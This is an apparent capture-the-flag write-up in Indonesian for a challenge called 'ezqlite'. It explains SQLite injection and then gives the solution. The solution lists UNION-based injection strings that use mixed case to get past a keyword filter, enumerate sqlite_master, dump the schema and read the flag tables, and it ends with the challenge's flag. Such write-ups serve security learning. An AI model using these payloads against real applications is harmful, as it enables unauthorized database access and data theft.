

# **ezqlite**
Injecting aplikasi berbasis database SQLite merujuk pada tindakan memanipulasi atau menyisipkan data berbahaya ke dalam aplikasi yang menggunakan database SQLite. SQLite adalah mesin database tersemat yang populer dan banyak digunakan dalam aplikasi mobile, aplikasi desktop, dan sistem perangkat lunak lainnya.

Injecting SQLite mirip dengan jenis serangan injeksi database lainnya, seperti SQL injection, tetapi khusus menargetkan database SQLite. Ini melibatkan eksploitasi kerentanan dalam validasi input aplikasi atau pembentukan query untuk menjalankan operasi database yang tidak sah atau berbahaya.
Dalam serangan injeksi SQLite, seorang penyerang dapat mencoba:
1) Memanipulasi query SQL: Dengan menyisipkan pernyataan SQL berbahaya atau memodifikasi query yang ada, seorang penyerang dapat mengambil, mengubah, atau menghapus data dalam database SQLite di luar yang dimaksudkan atau diotorisasi.
2) Melewati autentikasi: Seorang penyerang dapat mencoba melewati mekanisme autentikasi dengan menyisipkan pernyataan SQL yang memanipulasi aplikasi agar memberikan akses yang tidak sah atau meningkatkan hak akses.
3) Menjalankan kode sewenang-wenang: Dalam beberapa kasus, seorang penyerang dapat mencoba menjalankan kode sewenang-wenang di dalam database SQLite, yang dapat menyebabkan eksekusi kode jarak jauh atau kompromi keamanan lainnya.
## **About the challenge**
Pada Challenge kali ini, probleset meminta pemain untuk melihat website yang dibuatnya dan probleset mengatakan website tersebut tidak ada yang aneh dan terlihat biasa-biasa aja, seperti website normal. Setelah saya check app.py ternyata website tersebut memiliki vulnerability dibagian fungsi ```filter_words(query)``` sehingga memungkinkan attacker dapat menyerang dikarenakan terdapat satu parameter yang rentan terhadap SQL Injection berbasis Union basis string.


## **Solution**
Pertama, saya mencoba check apakah ada vulnerablity di query nya dengan kode ini ```'/*```. Tidak ada yang aneh, OK LANJUT

Selanjutnya, saya coba dump table tersebut dengan kode dibawah ini :
```
union select a%' uNion Select title, artist, rank from songs /*
```
Selanjutnya, saya dump table nya lagi dan lagi dengan kode dibawah ini :
```
a%' uNion SeLECT tbl_name, tbl_name, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT lIke 'sqlite_%' /*
```
Ternyata ada yang janggal, terdapat 5 flag dan 4 diantaranya fake flag. 

Selanjutnya, saya coba dump info column nya dengan kode ini:
```
a%' uNion SeLECT sql, sql, sql FROM sqlite_schema;/* 
```
Jika sudah dapat info column nya, tahap terakhir cari satu persatu dari 5 flag yang ada dengan kode dibawah ini ;
```
a%' uNion SeLECT flag, flag, flag FROM flag_1;/*
a%' uNion SeLECT flag, flag, flag FROM flag_2;/*
a%' uNion SeLECT flag, flag, flag FROM flag_3;/*
a%' uNion SeLECT flag, flag, flag FROM flag_4;/*
a%' uNion SeLECT flag, flag, flag FROM flag_5;/*
```
Dan ternyata flag asli berada di flag_3

And We got flag
```
ForestyHC{sqlit3_injectiooooonnn_is_basic_0c3662}
```
